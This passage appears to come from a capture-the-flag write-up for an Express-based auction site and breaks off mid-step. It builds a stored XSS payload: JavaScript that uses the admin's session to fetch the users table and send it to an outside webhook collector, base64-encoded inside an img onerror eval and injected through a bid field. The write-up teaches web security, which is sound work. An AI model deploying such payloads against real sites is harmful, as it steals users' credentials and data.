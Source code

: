 Thank you Express...

Let's make an exfiltration payload.

## Stealing all the credentials

Now we know the admin can read table's contents with `/table` so let's work on forging a request to steal that, then we can do that over XSS.

```
POST /table HTTP/1.1
...

tableName=users
```

Okay, let's make some basic JS to do that, I just use webhook.site for the exfiltration:
```js
fetch("/table", { 
  credentials: "include", 
  method: "POST", 
  headers: { 
    "Content-Type": "application/x-www-form-urlencoded" 
  }, 
  body: "tableName=users" 
})
.then(r => r.text())
.then(d => fetch("...", { 
  mode: "no-cors", 
  method: "POST", 
  body: d
}));
```

I base64 encode the payload, stick it into an `eval`, and this is the final payload:
```html
test'</div>
 <img src=x onerror=eval(atob(`Zm...Sk7`));>
<div x='
```

Let's send that as a bid, then we can report that auction URL.

I send this request:
```
POST /api/auctions/3/bids HTTP/1.1
...

bid[]=test'%3C/div%3E%3Cimg%20src=x%20onerror=eval(atob(%60Zm...KSk7%60));%3E%3Cdiv%20x='
```

Then I send the report: